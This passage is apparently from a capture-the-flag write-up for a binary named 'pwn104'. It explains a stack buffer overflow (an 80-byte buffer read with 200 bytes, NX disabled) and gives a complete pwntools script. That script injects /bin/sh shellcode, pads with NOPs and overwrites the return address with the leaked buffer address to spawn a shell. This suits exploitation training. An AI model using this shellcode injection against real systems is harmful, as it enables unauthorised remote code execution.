 80 byte allocated for local_58 but at the end of the decompiled code we see that read function takes 200 byte. This gives us exploitation advantage: **buffer overflow**

When we consider that NX is disabled we can execute a shell code with buffer overflow.

We find how much character infilate the buffer. Then we write the exploit.

<p align="center"> <img src="assets/Untitled%2018.png"> </p>

```python
#!/usr/bin/env python

import sys
from pwn import *
from struct import *

exe = './pwn104.pwn104'
context.binary = ELF(exe,checksec=False)

def start(argv=[], *a, **kw):
	if args.REMOTE:
		return remote(sys.argv[1], sys.argv[2], *a, **kw)
	else:
		return process([exe] + argv, *a, **kw)

# check exploit-db for shellcode https://www.exploit-db.com/exploits/46907
shellcode  = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'

io = start()
io.recvuntil(b'at ') #program gives us buffer location, we skip till that part
address = io.recvline() 
bufferLocation = p64(int(address, 16))

exploit  = b''
exploit += shellcode
exploit  += b"\x90"*(88-len(shellcode))
exploit += bufferLocation

io.sendline(exploit)

io.interactive()
```
